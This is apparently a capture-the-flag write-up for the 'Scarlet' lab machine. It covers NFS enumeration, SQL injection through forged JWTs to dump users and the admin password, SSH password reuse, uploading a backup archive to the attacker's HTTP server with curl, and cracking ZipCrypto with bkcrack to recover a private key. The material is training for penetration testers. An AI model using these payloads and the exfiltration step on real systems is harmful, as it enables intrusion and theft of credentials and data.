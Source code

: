 #### Enumeration

results of an nmap scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.183.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.183.222:/mnt/share /tmp/test_folder -o nolock
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h21m37s_001_.png)

Finding a public key but don't know where to use it. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_12h23m17s_002_.png)

Next, we turn to enumerate website. Adding DNS setting.

```
192.168.183.222 scarlet.local
```

Clicking `Author's Portal` to link to the login page. After trying to register many accounts, I find an existing account `brain` the web admin shows on the contacts page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h14m12s_003_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h18m41s_004_.png)

Logging in to the website using the previously registered account, but don't find vulnerabilities on the page we can submit publication information. After that, continue to check the session. I notice the page is using JWT to authenticate users. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) try to use JWT SQL injection to gather more information.

We can use exist token to regenerate paylod with SQLi query.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_13h42m22s_005_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h13m09s_006_.png)


```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k /tmp/test_folder/essentials/public.key
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

```shell
# UNION SELECT 1, 2, 3 .... and so on
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

Opening the dev tool and chagne the session value to the new token. After refreshing the page we can see the welcome message has changed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h22m55s_007_.png)

We also can decode the payload to check what exactly we send to server.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_14h29m31s_008_.png)

We have to confirm which database software we are dealing with.

```sql
-- MS SQL
SELECT @@VERSION();
-- MySQL/Postgres
SELECT VERSION();
-- SQLite
SELECT sqlite_version();
```

It's SQLite and then we can use SQLite statements.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT sqlite_version(), 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h16m57s_009_.png)


Listing all tables.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(name) FROM sqlite_schema WHERE type = 'table') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h52m21s_010_.png)

Listing table `users` schema.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT sql FROM sqlite_schema WHERE name = 'users') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_15h55m20s_011_.png)

Listing all usernames in table `users`.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT group_concat(username) FROM users) , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h30m01s_012_.png)

Because brian is web admin so we try to get his password.

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1ODExMjAzfQ.MrNWoEBf6WB7Jj_CB0iM9Vpt3iU6Lkkf6aPvBdOgQN4MF7PgsfrwXZWnisCtSAvqHzhulFV8AFLpbDgaRi6W54aVx8qq8jHXVMSfRmfwWxDBXKwMzLo79SCszaLCm8S1OC9PZQWDKgsQS-Aqk0D-ADVURV0tMGcY6Y6D8xbiq8_6Xb7gocTf_JstrSAPcIkUfl8Q7ogkVU-SHlJhxzy9A4xV6_FivOJp_zz46LJGOp91u2CmpBhzq_6UsaN4LhgVCOejXesrIwCfWswZjdkmsn686tEGHiuiioaF1XNHpt1stbKVPi8wHZjcaaHBUJF-K_sNpfwoHAuYWYrRVQ6yC4ni_Ib6CDP1F1Ki1lvufgiYp9pndi-geFmGa9YFq79tPzZPIrJuxG9pEhw2a2SQnmx7wxXO0VUhPSKxqPjs4ZRC5PtVU9CqzWbTxrPyBlcUZUzLq1FyP0NpJ3TErz6Mgeesoz3NJTZ6yyWhi_SAXtiOtEfCgMsVwQMxVSXR57akcQTHq9N2uqMdZvXJB50PLeTLSvZbbRQ3HkQVGP_LXSkFpmDwQAuniujsVj8HHcyBIKEeREyJI75-HWWocR60MhlaWfrdmSW2ceCEokfl0Tu57QpsnqQUqnkdcxmgsYzHwIZZEKSgATQ0IGbwjoww17BO26YWU-FG8z7LNq65VDM -I -pc username -pv " ' UNION SELECT (SELECT password FROM users WHERE username = 'brian') , 2, 3 --  " -S hs256 -k /tmp/test_folder/essentials/public.key
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h50m17s_013_.png)

Reusing the passowrd to log in to SSH.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_16h53m57s_014_.png)

#### Privilege Escalation

Finding a backup file in opt folder. We upload it back to our machine.

```shell
# start a HTTP server
sudo python2 ~/Documents/HTTPutServer.py 192.168.49.183 80
```

```shell
# target
curl --upload-file /opt/backup.zip http://192.168.49.183
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h08m53s_015_.png)

The zip file has password protected. But we can see all the files that look like the website's source codes.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h12m56s_016_.png)

Next, we detect zip file encryption algorithm.

```shell
7z l -slt backup.zip
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_17h20m29s_017_.png)

`Exploiting ZipCrypto`

Tool

```shell
wget https://github.com/kimci86/bkcrack/releases/download/v1.5.0/bkcrack-1.5.0-Linux.tar.gz
```

According to the exploit steps we offer a `Plaintext` file that we can download from website.

```shell
wget http://scarlet.local/assets/images/mbr-9.jpg
```

Zip the file

```shell
zip -r plain.zip mbr-9.jpg
```

```shell
# put the all files in the same folder
./bkcrack -C backup.zip  -c 'web/assets/images/mbr-9.jpg' -P plain.zip -p mbr-9.jpg
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h41m48s_018_.png)

```shell
./bkcrack -C backup.zip  -c plain.zip  -k c45cce0e 772c014e 98bbd8be -U test.zip qwert
# -U, --change-password <archive> <password>
#        Create a copy of the encrypted zip archive with the password set to the
#        given new password (requires -C)
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h46m34s_019_.png)

We get a private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h50m30s_020_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h52m48s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Scarlet/Scarlet_20221015_18h53m14s_022_.png)